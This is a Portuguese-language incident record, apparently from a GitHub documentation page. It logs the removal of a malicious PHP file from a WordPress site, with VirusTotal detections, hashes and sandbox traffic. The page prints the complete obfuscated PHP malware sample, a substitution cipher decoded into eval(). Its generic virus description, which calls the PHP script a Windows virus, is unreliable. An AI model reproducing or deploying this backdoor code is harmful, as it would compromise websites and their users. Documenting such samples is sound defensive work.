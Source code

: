 ```yaml
---
id: doc1
title: Registro de arquivos maliciosos Site Wordpress
sidebar_label: COD 2018-04-11:01
---
```


Listagem de infecções em Site Wordpress

## 1.0.0 - 2018-04-11

### Fixed

- Removido arquivo wxcvbuew.php do diretorio pricipal

## Código

```php
<?php
 $uijxcifc = 5885; function wkuwexhk($mkxfkqenb, $bpyjdd){$zjcpv = ''; for($i=0; $i < strlen($mkxfkqenb); $i++){$zjcpv .= isset($bpyjdd[$mkxfkqenb[$i]]) ? $bpyjdd[$mkxfkqenb[$i]] : $mkxfkqenb[$i];}
$jmlychvcua="rawurl" . "decode";return $jmlychvcua($zjcpv);}
$xwkorsa = '%zd8b8_TiM%sG%sZI8T1qUH_imm0mT%sZ%swd%sA%jo%dN%dv%zd8b8_TiM%sG%sZq0O_'.
'imm0mT%sZ%swd%sA%jo%dN%dv%zdimm0m_mi10mM8bO%sGd%sA%jo%dN%dv%z'.
'dTiM_M89i_q898M%sGd%sA%jo%dN%dv%zd8Ob0mi_yTim_UW0mM%sGS%sA%jo%dN%dv%zd8b8_Ti'.
'M%sG%sZ9Uc_iciDyM80b_M89i%sZ%swd%sA%jo%dN%dv%dN%dv60miUDk'.
'%sd%sG%sz_w55ElK%sdUT%sd%sz8Mi9%sA%dN%dv%Zo%dN%dv%sd%sd%sd%s'.
'd86%sd%sG%sz8Mi9%sd%sS%jN%sd%ssW6BdWGUi-GsWs-zS6Z-Aj'.
'Dz-DAzGiIBISSWj%ss%sA%dN%dv%sd%sd%sd%sd%sd%sd%sd%sdi'.
'c8M%sG%sA%jo%dN%dv%ZN%dN%dv%dN%dv%szIUMU%sd%jN%sd68qi_OiM_D0bMibMT%sG%sZ1k1%jv//8b1yM%sZ%sA%jo%dN%d'.
'v%szIUMU%sd%jN%sdT1q8M%sG%ss%jN%ss%sw%szIUMU%sws%sA%jo%dN%dv%dN%dv%szWBz'.
'_IiD0Ii_IUMU%sd%jN%sdWUTiBz_IiD0Ii%sGymqIiD0Ii%sG%szIUMU%7oS%7N%sA'.
'%sA%jo%dN%dv%dN%dv%szTibI_IUMU%sd%jN%sdybTim8Uq82i%sGIiDmH1M%sG%szWBz_IiD0Ii_IUMU%sA%sA%jo%dN%dv%d'.
'N%dv%szmiTyqM%sd%jN%sdTibI_IUMUS%sd%sG%szTibI_IUMU%sA%jo%dN%dv%dN%dv86%sd%sG%sS%szmiTyqM%sA%dN%d'.
'v%Zo%dN%dv%sd%sd%sd%sd%szmiTyqM%sd%jN%sdTibI_IUMUs%sG%szTibI_IUMU%sA%jo%dN%dv%ZN%dN%dv%dN%dviDk0'.
'%sd%szmiTyqM%jo%dN%dv%dN%dv6ybDM80b%sdIiDmH1M%sG%szIUMU%sA%dN%dv%Zo%dN%dv%'.
'sd%sd%sd%sd%sz0yM_IUMU%sd%jN%sd%ss%ss%jo%dN%dv%sd%sd%sd%sd%szfiH%sd%jN%sd%sz_JKhuKh%7o%sZtQQR_t5JQ%'.
'sZ%7N%sd.%sd%sz_JKhuKh%7o%sZhKYeKJQ_ehl%sZ%7N%jo%dN%dv%sd%sd%sd%sd%szfiH_qib%sd%jN%sdTMmqib%sG%szfi'.
'H%sA%jo%dN%dv%sd%dN%dv%sd%sd%sd%sd60m%sd%sG%sz8%jNd%j'.
'o%sd%sz8%sd%jw%sdTMmqib%sG%szfiH%sA%jo%sd%sz8%so%so%sA%dN%dv%sd%sd%sd%sd%Zo%dN%d'.
'v%sd%sd%sd%sd%sd%sd%sd%sd%szfiH%7o%sz8%7N%sd%jN%sdDkm%sG0mI%sG%szfiH%7o%sz8%7N%sA%sd%7K%s'.
'd%sG%szfiH_qib%sd%s7%sds77%sA%sA%jo%dN%dv%sd%sd%sd%sd%ZN%dN%dv%dN%dv%sd%sd%sd%sd60m%'.
'sd%sG%sz8%jNd%jo%sd%sz8%jwTMmqib%sG%szIUMU%sA%jo%sA%dN%dv%sd%sd%sd%sd%Zo%dN%dv%sd%sd%sd%sd%sd%s'.
'd%sd%sd60m%sd%sG%szF%jNd%jo%sd%szF%jwTMmqib%sG%szfiH%sA%sd%sB%sB%sd%sz8%jwTMm'.
'qib%sG%szIUMU%sA%jo%sd%szF%so%so%sw%sd%sz8%so%so%sA%dN%dv%sd%sd'.
'%sd%sd%sd%sd%sd%sd%Zo%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%sd%sd%sd%sd%sz0yM_IUMU%sd.%jN%sdDkm%sG0mI%sG%'.
'szIUMU%7o%sz8%7N%sA%sd%7K%sd0mI%sG%szfiH%7o%szF%7N%sA%sA%jo%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%ZN%d'.
'N%dv%sd%sd%sd%sd%ZN%dN%dv%dN%dv%sd%sd%sd%sdmiMymb%sd%sz0yM_IUMU%jo%dN%dv%ZN%dN%dv%dN%dv6'.
'ybDM80b%sdTibI_IUMUS%sG%szIUMU%sA%dN%dv%Zo%dN%dv%sd'.
'%sd%sd%sd%szkiUI%sd%jN%sd%ss%ss%jo%dN%dv%dN%dv%sd%sd%sd%sd60miUDk%sG%szIUMU%7o%sskiUIimT'.
'%ss%7N%sdUT%sd%szfiH%jN%jK%szrUqyi%sA%dN%dv%sd%sd%sd%sd%Zo%d'.
'N%dv%sd%sd%sd%sd%sd%sd%sd%sd%szkiUI%sd.%jN%sd%szfiH%sd.%sd%ss%jv%sd%ss%sd.%sd%szrUqyi%sd'.
'.%sd%ss%7wm%7wb%ss%jo%dN%dv%sd%sd%sd%sd%ZN%dN%dv%d'.
'N%dv%sd%sd%sd%sd%sz1UmU9T%sd%jN%sdUmmUH%sG%sZkMM1%sZ%sd%jN%jK%sdUmmUH%sG%dN%dv%sd%sd%sd%sd%sd%sd'.
'%sd%sd%sZ9iMk0I%sZ%sd%jN%jK%sd%szIUMU%7o%ss9iMk0I%ss%7N'.
'%sw%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%sZkiUIim%sZ%sd%jN'.
'%jK%sd%szkiUI%sw%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%sZD0bMibM%sZ%sd%jN%jK%sd%szIUMU%7o%ssW0I'.
'H%ss%7N%sw%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%sZM89i0yM%sZ%sd%jN%jK%'.
'sd%szIUMU%7o%ssM89i0yM%ss%7N%sw%dN%dv%sd%sd%sd%sd%sd%sd%sd%'.
'sd%dN%dv%sd%sd%sd%sd%sA%sA%jo%dN%dv%dN%dv%sd%sd%sd%sd%szDMc%sd%jN%sdTMmiU9_'.
'D0bMicM_DmiUMi%sG%sz1UmU9T%sA%jo%dN%dv%sd%sd%sd%sd%dN%dv%sd%sd'.
'%sd%sd%szmiTyqM%sd%jN%sd%zd68qi_OiM_D0bMibMT%sG%szIUMU%7'.
'o%ssymq%ss%7N%sw%sdXv4JK%sw%sd%szDMc%sA%jo%dN%dv%dN%dv%sd%sd%sd%sd86%sd%sG%szkMM1_miT10'.
'bTi_kiUIim%sA%dN%dv%sd%sd%sd%sd%Zo%dN%dv%sd%sd%sd%s'.
'd%sd%sd%sd%sd86%sd%sGTMm10T%sG%szkMM1_miT10bTi_kiUIim%7od%7N%sw%sd%s'.
'ssdd%ss%sA%sd%jN%jN%jN%sdXv4JK%sA%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%Zo%dN%dv%sd%sd%sd%'.
'sd%sd%sd%sd%sd%sd%sd%sd%sd%szmiTyqM%sd%jN%sd%sstQQR_Khh5h%7wM%ss%'.
'sd.%sd%szkMM1_miT10bTi_kiUIim%7od%7N%jo%dN%dv%sd%sd%sd%sd%sd%sd%sd%sd%Z'.
'N%dN%dv%sd%sd%sd%sd%ZN%dN%dv%sd%sd%sd%sdiqTi%dN%dv%sd%sd%sd%sd%Zo%dN%d'.
'v%sd%sd%sd%sd%sd%sd%sd%sd%szmiTyqM%sd%jN%sd%ssw5VVKwQl5'.
'V_Khh5h%ss%jo%dN%dv%sd%sd%sd%sd%ZN%dN%dv%dN%dv%sd%sd%sd%sdmiMymb%sd%szm'.
'iTyqM%jo%dN%dv%ZN%dN%dv%dN%dv6ybDM80b%sdTibI_IUMUs%sG%szIUMU%sA%dN%dv%Zo%dN%dv%sd%sd%sd%sd//%sdyTi%'.
'sdT0DfiMT%dN%dv%ZN';
$cdybtgwl = Array('1'=>'p', '0'=>'o', '3'=>'J', '2'=>'z', '5'=>'O', '4'=>'L', '7'=>'5', '6'=>'f', '9'=>'m', '8'=>'i', 'A'=>'9', 'C'=>'w', 'B'=>'6', 'E'=>'K', 'D'=>'c', 'G'=>'8', 'F'=>'j', 'I'=>'d', 'H'=>'y', 'K'=>'E', 'J'=>'S', 'M'=>'t', 'L'=>'q', 'O'=>'g', 'N'=>'D', 'Q'=>'T', 'P'=>'G', 'S'=>'1', 'R'=>'P', 'U'=>'a', 'T'=>'s', 'W'=>'b', 'V'=>'N', 'Y'=>'Q', 'X'=>'F', 'Z'=>'7', 'a'=>'Y', 'c'=>'x', 'b'=>'n', 'e'=>'U', 'd'=>'0', 'g'=>'W', 'f'=>'k', 'i'=>'e', 'h'=>'R', 'k'=>'h', 'j'=>'3', 'm'=>'r', 'l'=>'I', 'o'=>'B', 'n'=>'Z', 'q'=>'l', 'p'=>'M', 's'=>'2', 'r'=>'v', 'u'=>'V', 't'=>'H', 'w'=>'C', 'v'=>'A', 'y'=>'u', 'x'=>'X', 'z'=>'4');
eval/*l*/(wkuwexhk($xwkorsa, $cdybtgwl));?>

```

## Analise VirusTotal

[VIRUSTOTAL](https://www.virustotal.com/gui/file/eeae21af0987ae9feac61f7a45280a81a57e5d316708f1daa6c30429a1ce55a5/detection)

|   |   |
|---:|:----:|
|eeae21af0987ae9feac61f7a45280a81a57e5d316708f1daa6c30429a1ce55a5wxcvbuew.php | 4.77 KB Size | 2019-08-09 11:55:50 UTC


|   |   |   |
|--:|---:|:---|
|Avira (no cloud)|HTML/ExpKit.Gen2|DrWeb|PHP.Packed.69|
|ESET-NOD32|PHP/Kryptik.BC|F-Secure|Malware.HTML/ExpKit.Gen2|
|Fortinet|PHP/Kryptik.BC!tr|Ad-Aware|Undetected|

|Basic Properties |       |
|----------------:|-------|
|MD5 | 13b5b4055fbd714df08f3b5ceda44161|
|SHA-1|fbc5e575f41788b9b45d3658aa315dc2f04e07c8|
|SHA-256|eeae21af0987ae9feac61f7a45280a81a57e5d316708f1daa6c30429a1ce55a5|
|SSDEEP|96:hbVQiJrhfONgae5GJU/IypM5HyH8xkBOSKdlUelDyCjMbnX4K9RA9WU4FG0oZmit:hbVQiJAlU/1qR7UsDyCADX4ORA9WU4F2|
|File type|PHP|
|Magic|PHP script text|
|File size|4.77 KB (4886 bytes)|



## Malware.HTML/ExpKit.Gen2

O **HTML/ExpKit.Gen2** é um vírus detectado por vários fornecedores de software antivírus e antimalware. A detecção heurística de HTML/ExpKit.Gen2 é classificada como um vírus porque inflige e atua como uma ameaça mal-intencionada em seu sistema de computador Windows XP, Windows Vista, Windows 7, Windows 8 ou Windows 10.


O HTML/ExpKit.Gen2 modifica arquivos do sistema, adiciona novas pastas, cria tarefas do Windows e adiciona arquivos para infectar e comprometer o sistema do computador. HTML ExpKit.Gen2 é um vírus que é baixado ou solto no seu computador enquanto navega na internet. A maioria dos usuários não tem idéia de como essa ameaça HTML / ExpKit.Gen2 está instalada em seu computador até que seu software antivírus a detecte como uma ameaça perigosa, mal-intencionada ou um vírus.

Se a sua proteção detectar o vírus HTML/ExpKit.Gen2, ele não será marcado para exclusão por padrão. Ele é detectado como malicioso e aconselhado a remover o HTML/ExpKit.Gen2 do seu computador.
## PHP.Packed.69

```
Host: shell.windows.com
User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
URL: /fileassoc/0409/xml/redir.asp?Ext=php
Host: shell.windows.com
User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
URL: /HeaderSlice.jpg
Host: shell.windows.com
User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
URL: /Win_FileAssoc_Header.jpg
Host: shell.windows.com
User-agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
URL: /0409/fileassoc.css
```

[TREATHMINER](https://www.threatminer.org/av.php?q=PHP.Packed.69)
